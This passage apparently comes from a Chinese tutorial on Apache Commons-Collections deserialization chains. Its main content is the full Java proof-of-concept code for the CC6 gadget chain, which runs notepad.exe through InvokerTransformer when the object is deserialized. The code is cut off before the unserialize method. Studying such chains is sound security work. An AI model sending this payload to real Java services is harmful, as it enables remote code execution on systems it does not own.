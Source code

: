 ![image-20250926160030849](./Commons-Collections%E7%AF%8703-CC6%E9%93%BE/image-20250926160030849.png)

# 完整代码

```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.rmi.server.ExportException;
import java.util.HashMap;
import java.util.Map;

public class Main {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"notepad.exe"})

        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object,Object> hashmap = new HashMap<>();
        Map decoratemap = LazyMap.decorate(hashmap,chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(decoratemap,"key");

        Field mapfield = tiedMapEntry.getClass().getDeclaredField("map");
        mapfield.setAccessible(true);
        mapfield.set(tiedMapEntry,new HashMap());
        hashmap.put(tiedMapEntry,"value");
        mapfield.set(tiedMapEntry,decoratemap);
        serialize(hashmap);
        unserialize("test.txt");


    }
    public static void serialize(Object obj) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("test.txt"));
        oos.writeObject(obj);
    }
```